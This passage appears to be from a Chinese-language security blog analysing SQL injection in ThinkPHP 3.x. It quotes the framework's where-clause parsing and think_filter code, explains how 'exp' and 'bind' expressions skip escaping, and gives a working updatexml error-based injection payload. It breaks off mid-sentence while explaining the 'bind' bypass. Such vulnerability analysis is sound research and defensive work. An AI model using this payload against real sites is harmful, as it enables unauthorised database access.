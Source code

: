### bind注入

前面提到在`ThinkPHP/Library/Think/Db/Driver.class.php`的`parseWhereItem`函数中,满足某些条件时可以绕过`parseValue`的`addslashes`处理

```php
elseif('bind' == $exp ){ // 使用表达式
    $whereStr .= $key.' = :'.$val[1]; # !!! 可能存在利用点,因为没有进行parseValue
}elseif('exp' == $exp ){ // 使用表达式
    $whereStr .= $key.' '.$val[1]; # !!! 可能存在利用点,因为没有进行parseValue
}
...
$count = count($val);
$rule  = isset($val[$count-1]) ? (is_array($val[$count-1]) ? strtoupper($val[$count-1][0]) : strtoupper($val[$count-1]) ) : '' ; 
if(in_array($rule,array('AND','OR','XOR'))) {
    $count  = $count -1;
}else{
    $rule   = 'AND';
}
for($i=0;$i<$count;$i++) {
    $data = is_array($val[$i])?$val[$i][1]:$val[$i];
    if('exp'==strtolower($val[$i][0])) {
        $whereStr .= $key.' '.$data.' '.$rule.' '; # !!! 可能存在利用点,因为没有进行parseValue
    }
}
```

传入`name[]=exp`或者`name[][]=exp`,debug时会发现字符串`exp`会在后面增加一个空格

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203172040630.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203172041491.png)

原因在于前面提到的`I`的方法的特殊处理,在`I`方法的最后调用了`think_filter`这一过滤函数,在敏感词的后面加了一个空格

这里有两种处理方法

1. 不使用`I`方法获取参数,直接使用`$_GET`进行获取

`$name = $_GET['name'];`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191553196.png)

`name[]=exp&name[]==1 and updatexml(1,concat(0x7e,(select @@version),0x7e),1)`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203191556302.png)

2. 绕过`think_filter`限制

注意到在`parseWhereItem`函数是会对`bind`进行特殊处理的,但是`think_filter`没有对`bind`进行过滤,由此当`name[]=bind`时,可以将数据

```php
    is_array($data) && array_walk_recursive($data,'think_filter');
    return $data;
}

function think_filter(&$value){
    // TODO 其他安全过滤

    // 过滤查询特殊字符
    if(preg_match('/^(EXP|NEQ|GT|EGT|LT|ELT|OR|XOR|LIKE|NOTLIKE|NOT BETWEEN|NOTBETWEEN|BETWEEN|NOTIN|NOT IN|IN)$/i',$value)){
        $value .= ' ';
    }
}
```
